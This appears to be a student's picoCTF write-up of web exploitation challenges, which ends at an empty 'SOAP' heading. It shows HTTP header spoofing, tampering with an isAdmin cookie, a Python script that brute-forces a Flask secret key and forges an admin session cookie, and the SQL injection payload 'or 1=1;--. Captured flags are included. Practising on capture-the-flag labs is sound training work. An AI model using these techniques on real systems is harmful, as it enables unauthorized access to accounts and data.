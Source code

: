 ﻿**WEB EXPLOITATION**

PICOCTF

1\.Inspect Element

- Found the flag in the body tab of website when I inspected it.
- Anyways they should have kept the flag hidden in head tab then it would have related to Histiaeus as he hid messages on the head

2\.Intro To Burp

- Did a lightweight scan on website using burp(have professional version somehow)
- Didn’t find anything except one session cookie
- So registered while intercept was on 
- Forwarded it and did the same for otp form also
- Deleted otp= from request and got the flag

3\.Dont-use-client-side

- A verify function was given where flag was split in pieces of four
- Simple reconstruction- picoCTF{no\_clients\_plz\_b706c5}

4\.Where are The robots

- Obviously the creator would not want us to look at robots.txt
- Found / Disallow: /1bb4c.html
- Found the flag there

5\.SQL direct

- After downloading psql and connecting it, I had to google some basic commands
```bash
    (base) mehul@Mehuls-MacBook-Air ~ % psql -h saturn.picoctf.net -p 54826 -U postgres
Password for user postgres: 
psql (14.13 (Homebrew), server 15.2 (Debian 15.2-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
Type "help" for help.

postgres=# \l
                                 List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------+----------+----------+------------+------------+-----------------------
 pico      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
(4 rows)
postgres=# \c pico
psql (14.13 (Homebrew), server 15.2 (Debian 15.2-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
You are now connected to database "pico" as user "postgres".
pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)

pico=# \d flags
                        Table "public.flags"
  Column   |          Type          | Collation | Nullable | Default 
-----------+------------------------+-----------+----------+---------
 id        | integer                |           | not null | 
 firstname | character varying(255) |           |          | 
 lastname  | character varying(255) |           |          | 
 address   | character varying(255) |           |          | 
Indexes:
    "flags_pkey" PRIMARY KEY, btree (id)

pico=# SELECT * FROM FLAGS
pico-# ;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_31fd14c0}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)

pico=# 
```
6\.Some assembly Required-1
- found that it was interacting with /G82XCw5CX3.js 
- when i opened the js i found /JIFxzHyW8W some obsure wasm probably
- using some wasm decompilers(it didnt even require that) i found the flag

7\.Who are you?
- Honestly the best challenge i have come across till now
- had to use some help but learnt a lot
- this is the orignal get request:
```bash
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
- first had to change the useragent to PicoBrowser as it said only PicoBrowser is allowed
- Then i said it didnt trust users from other sites so had to cahnge the referer to the host only which is Referer: mercury.picoctf.net:52362
- Then it said site worked only in 2018 so i added Date: Wed, 21 Oct 2018 07:28:00 GMT
- Then had to make the request untarckable by DNT:1
- then it said the site worked only in sweden so i set the ip address for seden in X-Forwarded-For: 92.44.242.19
- finally  i also had to change the language to get the flag
- this is the final get request:
```bash
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Accept-Language: sv-sv,sv;q=0.9
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT:1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Referer: mercury.picoctf.net:52362
X-Forwarded-For: 92.44.242.19
Connection: keep-alive
```
8\.Power cookies
- Opened Burp Suite as usual while intercept was on
- when i clicked on continue as guest this was the get request 
``` bash 
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:61613
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://saturn.picoctf.net:61613/
Accept-Encoding: gzip, deflate, br
Cookie: isAdmin=0
Connection: keep-alive
``` 
- i just changed cookie to 1 to get the flag

9\. Most Cookies
- downlaoded flask-unsign
- looked how server.py worked
- i bruteforced to find the valid cookie
```bash 
  from bs4 import BeautifulSoup
from subprocess import run
import requests

url = "http://mercury.picoctf.net:52134/"
session = requests.Session()
response = session.get(url)
cookie = session.cookies.get_dict().get('session')
cookie_names = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", 
    "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", 
    "macaron", "black and white", "white chocolate macadamia"
]
with open('wordlist.txt', 'w') as f:
    for name in cookie_names:
        f.write(name + "\n")
result = run(
    ["flask-unsign", "--unsign", "--cookie", cookie, "--wordlist", "wordlist.txt"],
    capture_output=True, text=True
)
secret = result.stdout.strip()
if not secret:
    raise ValueError("Secret key was not found.")
payload = '{"very_auth": "admin"}'
sign_result = run(
    ["flask-unsign", "--sign", "--cookie", payload, "--secret", secret],
    capture_output=True, text=True
)
signed_cookie = sign_result.stdout.strip()
if not signed_cookie:
    raise ValueError("Failed to sign the cookie.")
cookies = dict(session=signed_cookie)
response = requests.get(url, cookies=cookies)
soup = BeautifulSoup(response.text, "html.parser")
flag = soup.select_one("body > div.container > div.jumbotron > p:nth-child(2)")
if flag:
    print(flag.get_text())
else:
    print("Flag not found on the page.")
```

10\. More sqli
- when i entered random info it showed
``` bash
username: mehul
password: mehul123
SQL query: SELECT id FROM users WHERE password = 'mehul123' AND username = 'mehul'
```
- so i tried sql injection
- put this as my password -'or 1=1;-- i got welcome screen
- got the flag in responce headers

11\.SOAP



